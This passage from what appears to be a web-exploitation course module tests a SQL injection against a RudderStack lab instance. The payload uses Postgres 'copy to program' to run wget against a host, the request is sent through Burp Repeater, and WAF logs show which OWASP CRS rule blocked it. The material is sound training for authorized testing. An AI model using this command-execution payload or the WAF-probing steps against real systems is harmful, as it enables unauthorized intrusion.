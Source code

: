 ```
{ "source_id":"'; copy (select 'a') to program 'wget -q http://192.168.48.3:9000/it_worked' -- - ", "task_run_id":"1"}
```

> Listing 17 - SQL injection payload

If we still have our request in Repeater, we can update the Target and Host values to use port 80. Once we've updated the request, we can _Send_ it.

![Figure 19: Repeater with 403 Forbidden response](https://static.offsec.com/offsec-courses/WEB-300/images/rudderstack/524996428fb6ea07cb5e1e09d44a9c2f-rudder_burp_12.png)

Figure 19: Repeater with 403 Forbidden response

The application responded with _HTTP 403 Forbidden_ with a Content-Length of 0. This response does not give us a lot to work with. Checking for different responses based on the values we send is one way we can attempt to identify if an application is behind a WAF. For example, if we send a single quote as the _source_id_, the application responds with an _HTTP 500 Internal Server Error_ with the verbose error message.

![Figure 20: Repeater with 500 Internal Server Error response](https://static.offsec.com/offsec-courses/WEB-300/images/rudderstack/1486e50a5a617e80a40b9def2517c892-rudder_burp_13.png)

Figure 20: Repeater with 500 Internal Server Error response

However, if we include a single quote followed by a semicolon (`';`), we receive the empty _403 Forbidden_ response. This difference in response may be all that we have to identify that we're interacting with a WAF.

Since we _do_ have full access to the testing environment, let's review the Caddy logs to determine which rule we triggered.

```
student@rudder:~$ docker logs -n 5 student_caddy_1
{"level":"debug","ts":1709242735.4946961,"logger":"http.handlers.reverse_proxy","msg":"selected upstream","dial":"backend:8080","total_upstreams":1}
{"level":"debug","ts":1709242735.4958072,"logger":"http.handlers.reverse_proxy","msg":"upstream roundtrip","upstream":"backend:8080","duration":0.001060348,"request":{"remote_ip":"192.168.48.2","remote_port":"61683","client_ip":"192.168.48.2","proto":"HTTP/1.1","method":"POST","host":"rudderstack:80","uri":"/v1/warehouse/pending-events?triggerUpload=true","headers":{"Content-Length":["42"],"Accept-Encoding":["gzip, deflate, br"],"X-Forwarded-For":["192.168.48.2"],"User-Agent":["Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/118.0.5993.90 Safari/537.36"],"Accept":["text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7"],"X-Forwarded-Proto":["http"],"Upgrade-Insecure-Requests":["1"],"Content-Type":["application/json"],"Accept-Language":["en-US,en;q=0.9"],"X-Forwarded-Host":["rudderstack:80"]}},"headers":{"Vary":["Origin"],"X-Content-Type-Options":["nosniff"],"Content-Length":["227"],"Content-Type":["text/plain; charset=utf-8"],"Date":["Thu, 29 Feb 2024 21:38:55 GMT"]},"status":500}
{"level":"error","ts":1709242946.2066061,"logger":"http.handlers.waf","msg":"[client \"192.168.48.2\"] Coraza: Warning. SQL Authentication bypass (split query) [file \"/ruleset/rules/REQUEST-942-APPLICATION-ATTACK-SQLI.conf\"] [line \"9227\"] [id \"942540\"] [rev \"\"] [msg \"SQL Authentication bypass (split query)\"] [data \"Matched Data: '; found within ARGS:json.source_id: ';\"] [severity \"critical\"] [ver \"OWASP_CRS/4.0.1-dev\"] [maturity \"0\"] [accuracy \"0\"] [tag \"application-multi\"] [tag \"language-multi\"] [tag \"platform-multi\"] [tag \"attack-sqli\"] [tag \"OWASP_CRS\"] [tag \"capec/1000/152/248/66\"] [tag \"PCI/6.5.2\"] [tag \"paranoia-level/1\"] [hostname \"\"] [uri \"/v1/warehouse/pending-events?triggerUpload=true\"] [unique_id \"DqHmPboMoGeARJPm\"]"}
{"level":"error","ts":1709242946.2070546,"logger":"http.handlers.waf","msg":"[client \"192.168.48.2\"] Coraza: Access denied (phase 2). Inbound Anomaly Score Exceeded (Total Score: 5) [file \"/ruleset/rules/REQUEST-949-BLOCKING-EVALUATION.conf\"] [line \"11422\"] [id \"949110\"] [rev \"\"] [msg \"Inbound Anomaly Score Exceeded (Total Score: 5)\"] [data \"\"] [severity \"emergency\"] [ver \"OWASP_CRS/4.0.1-dev\"] [maturity \"0\"] [accuracy \"0\"] [tag \"anomaly-evaluation\"] [hostname \"\"] [uri \"/v1/warehouse/pending-events?triggerUpload=true\"] [unique_id \"DqHmPboMoGeARJPm\"]"}
```